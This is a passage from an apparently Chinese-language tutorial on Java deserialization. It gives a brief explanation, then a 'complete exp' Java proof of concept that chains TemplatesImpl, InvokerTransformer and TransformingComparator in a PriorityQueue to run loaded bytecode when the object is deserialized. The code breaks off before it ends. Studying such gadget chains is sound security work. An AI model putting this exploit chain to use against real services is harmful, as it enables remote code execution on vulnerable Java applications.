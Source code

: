 所以说size最少是2才会触发排序和比较。使用PriorityQueue.add()

还要注意得问题是在序列化之前使用PriorityQueue.add()会提前进入到siftDownUsingComparator调用到comparator.compare，使得代码抛出异常，所以我们要在进行add之前将我们传入得comparator为无效值，add完之后再修改回来。

### 完整exp

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
```